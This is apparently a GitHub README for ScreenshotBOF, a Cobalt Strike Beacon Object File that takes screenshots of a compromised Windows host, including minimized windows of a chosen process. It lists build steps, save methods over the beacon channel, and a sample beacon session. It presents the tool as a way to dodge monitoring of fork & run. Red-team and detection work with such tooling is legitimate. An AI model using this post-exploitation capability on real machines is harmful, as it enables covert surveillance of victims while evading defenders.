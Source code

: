 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

# Release 2.0
- JPEG is used in place of BMP
- Moved to mingw
- Added beacon screenshot callback option
- Removed BMP renderer (it will be missed)
- No longer requires Cobalt Strike 4.10
- Supports capturing of minimized windows

## Self Compilation
1. git clone the repo
2. run `make`

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
2. download file over beacon as a screenshot (Cobalt Strike only)

## PID
0: capture full screen (PID = 0)
specific PID: capture specific PID (works even when minimized!)

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1/2} {pid/0}
  
```
beacon> screenshot_bof file.jpg 2 21964
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 12421 bytes
[+] received output:
Downloading JPEG over beacon as a screenshot with filename file.jpg
[*] received screenshot of Screenshot from Admin (26kb)
[+] received output:
Screenshot saved/downloaded successfully
```


## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for (deprecated) BMP rendering in aggressorscript, and screenshot callback function
- bitmap to jpeg from https://github.com/WKL-Sec/HiddenDesktop

## Disclaimer
usual disclaimer here, I am not responsible for any crimes against humanity you may commit or nuclear war you may cause using this piece of poorly written code.
